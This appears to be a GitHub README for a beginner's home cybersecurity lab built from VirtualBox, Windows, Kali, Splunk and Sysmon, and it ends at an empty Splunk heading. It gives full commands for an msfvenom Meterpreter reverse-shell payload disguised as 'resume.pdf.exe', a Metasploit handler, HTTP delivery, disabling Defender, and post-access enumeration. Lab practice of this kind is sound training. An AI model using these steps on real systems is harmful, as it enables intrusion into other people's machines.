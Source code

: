 # BASIC-HOME-LAB

- ### **💡 What's a Home Lab?: Think of it as your digital workshop, a safe haven to tinker, test, and refine your cybersecurity skills. A Home Lab is a personalized setup where you can build virtual environments, play with cutting-edge tools, and simulate real-world scenarios, all from the comfort of your home. 🏠💡**

- ### **🔍 The Power of Practical Learning: Theory is essential, but the Home Lab takes you beyond the textbooks.  Hands-on learning allows you to grasp complex concepts, fortify your technical abilities, and face cyber challenges head-on! 🧠🔍**

---

## STEP 1: REQUIREMENTS :- 

### 1. VIRTUAL ENVIRONMENT : VIRTUAL BOX OR VMWARE :-

![Screenshot 2024-12-16 165429](https://github.com/user-attachments/assets/34ee4436-dc10-471e-8132-67049ac5bdf2)

- Virtualbox Link : https://www.virtualbox.org/wiki/Downloads

---

### 2. OPERATING SYSTEM : WINDOWS 10 AND KALI LINUX :-

### - WINDOWS-10/11: ![image](https://github.com/user-attachments/assets/1d4e8060-5225-44f7-9f1c-892d225ef48b)

- Windows ISO Image Link: https://www.microsoft.com/en-ca/software-download/windows10

---

### - KALI LINUX: ![image](https://github.com/user-attachments/assets/a83d0741-d51b-4c03-9df3-99327b2054f6)


- Kali Linux Link : [www.kali.org](https://www.kali.org/)

---

### 3. TOOLS USED : SPLUNK AND SYSMON WITH OLAF CONFIGURATION :-

### - SPLUNK ENTERPRISE: ![Screenshot 2024-12-16 170122](https://github.com/user-attachments/assets/84b9c38e-d06e-41d0-8898-af7d9abf359c)

- Splunk Link: https://www.splunk.com/en_us/download/splunk-enterprise.html

---

### - SYSMON: ![Screenshot 2024-12-16 172320](https://github.com/user-attachments/assets/ccd044ef-c637-4232-a242-374a58924de4)


- Sysmon Link: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon

- Olaf Configuration: https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml

---

## STEP 2: CONFIGURATION :- 

- ### **🔧 Crafting the Perfect Virtual Workspace: A properly configured virtual machine is the cornerstone of your Home Lab, empowering you to experiment, fine-tune, and elevate your skills within a secure environment.🏠🔧**

- ### **🚀 Elevate Your Learning with Hands-On Virtualization: Theoretical knowledge forms the foundation, but the Home Lab catapults you into the realm of practical mastery. Take on cyber challenges with confidence, equip your mental toolkit, and embark on a journey of true skill refinement! 🚀🧠**

---

### A: CHANGE YOUR NETWORK OPTIONS BASED ON YOUR SCENARIO :-

- #### Scenario 1: Test tools using internet connectivity : Use default settings - NAT 

- #### Scenario 2: Analyze Malware and identify additional IOC: Use Internal network / unattached


![Screenshot 2024-12-19 070015](https://github.com/user-attachments/assets/32bb2cd4-4220-4ee6-8fc9-6594c6eb865a)


---

## **Since I'm using this home lab to analyze malware im gonna go for scenario 2** :-
 
###  1. **Change network to internal network and create a name for it** :

#### - On your windows machine -> Settings -> Network -> Internal network -> change name (Do the same for kali machine as well by selecting the name associated with windows machine) - **IN THEORY OUR 2 MACHINES ARE NOW IN THE SAME NETWORK**

---

###  2. **Statically assign the IP address for both machines** : 

#### - **On windows machine click -> Globe -> Internet and network settings -> Change Adapter options -> Right click ethernet -> properties -> IPV4 -> use following ip address -> for example 192.168.20.10 double check by opening cmd and ipconfig see the ip**

![Screenshot 2024-12-19 070753](https://github.com/user-attachments/assets/3134a9c3-c3cb-4030-b38d-42268dada9a8)



#### - **On kali machine right click ethernet icon -> edit connections -> wired connections -> settings -> ipv4 -> manual -> add -> 192.168.20.11 -> mask - 24 -> save double check with if config 
**
![Screenshot 2024-12-19 070628](https://github.com/user-attachments/assets/04daa2b9-c0df-40b9-912c-4b3039d63436)


#### - Head over to windows machine and try pinging kali and take a snapshot

#### - **Now you are ready to play around!**

---

## STEP 3: HOW TO GENERATE TELEMETRY AND DETECT EVIL :- 

#### Prerequisites :-

![Screenshot 2024-12-21 084318](https://github.com/user-attachments/assets/0334ce6a-6d58-48a1-a424-4ba9da0366ca)

---

### STEPS :-

- ### A. KALI :-

- #### A. Enable RDP on Windows! 

- Open Settings: -> Press Windows + I to open the Settings app. // Go to System > Remote Desktop: -> Toggle on the Enable Remote Desktop option. // Confirm your selection if prompted.
---
- #### B. Start scanning all portts using nmap :-

- On your kali open terminal -> type command nmap -A 192.168.20.10 -Pn where -Pn skips ping the ip adress is of our victim machine - windows machine and -A enables os detection version detection script scanning and traceroute : will identify any ports that are open
---
- #### C. Create our own malware :-

 - To get a list of payloads - msfvenom -l payloads

 - Enter msfvenom -p (paste your payload) windows/x64/meterpreter/reverse_tcp lhost=ip of attack machine 192.168.20.11 lport=4444 -f exe -o resume.pdf.exe
   [what this command does :- will generate our malware using meterpreter reverse tcp payload instructed to connect back to the machine based on lhost and lport file format will be an exe and name being resume.exe ]
 
 - Verify with ls
---
 - ####  D. Open a handler that will listen in on the port we have configured in our malware :-

 - Open metasploit by typing msfconsole -> use exploit/multi/handler now we are in the exploit itself

 - Type options change the payload to reverse_tcp set payload (paste your payload) and set lhost as your attacker machine press enter check with options

 - Start the handler by typing in exploit : we are now listening in and waiting for our test machine to exe our malware
---
 - #### E. Setup a http server on our kali machine so our test machine can download the malware

 - New tab -> same directory ls -> python3 -m http.server 9999 -> enter [ this will allow our test machine to access our kali machine and start downloading the malware from there ]

---
 
 - ### B. WINDOWS :-

 - Go to security center -> virus and threat protection -> manage settings -> disable real time protection

 - Open browser and type in ip of kali : 192.168.20.11:9999 -> click resume.pdf.exe -> download and open it

 - Open cmd with admin priviledges -> netstat -anob [ to see an estb connection with our kali machine ]

 - Now head over to kali where looking at our handler we should have an open shell we now have a connection [ meterpreter tab ]

---
 
 - ### C. KALI II :-

 -  type in shell [ to establish shell on our test machine ]

 - type in net user

 - type in netl localgroup

 - type in ipconfig

---
 
 - ### D. SPLUNK :-

